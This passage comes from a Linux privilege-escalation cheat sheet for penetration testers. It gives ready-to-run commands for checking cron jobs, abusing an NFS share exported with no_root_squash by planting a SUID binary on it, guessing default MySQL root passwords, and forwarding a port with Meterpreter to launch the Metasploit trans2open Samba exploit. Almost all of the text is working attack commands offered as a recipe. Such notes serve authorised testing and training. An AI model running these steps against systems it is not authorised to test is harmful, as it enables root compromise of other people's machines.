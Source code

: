 > **Reference:** [pspy GitHub](https://github.com/DominicBreuker/pspy/blob/master/README.md)

### Cron Jobs

Check for misconfigured cron jobs:

```bash
cat /etc/crontab
ls -lsaht /etc/cron.*
ls -la /etc/cron.daily
crontab -u root -l
```

## Network and Service Exploitation

### NFS Shares

Check for weak NFS permissions:

```bash
cat /etc/exports
showmount -e <TARGET_IP>
```

Exploit `no_root_squash` on attacker machine:

```bash
mkdir -p /mnt/nfs/
mount -t nfs -o vers=3 <TARGET_IP>:<NFS_SHARE> /mnt/nfs/ -nolock
gcc suid.c -o suid
cp suid /mnt/nfs/
chmod u+s /mnt/nfs/suid
```

On target:
```bash
./suid
```

### MySQL Unauthorized Access

Test for default or weak credentials:

```bash
mysql -uroot -p
# Try: root, toor, <empty>
```

### Port Forwarding

Forward loopback services using Meterpreter:

```bash
meterpreter> portfwd add -l 139 -p 139 -r <TARGET_IP>
meterpreter> background
msf> use exploit/linux/samba/trans2open
msf> set RHOSTS 0.0.0.0
msf> set RPORT 139
msf> run
```
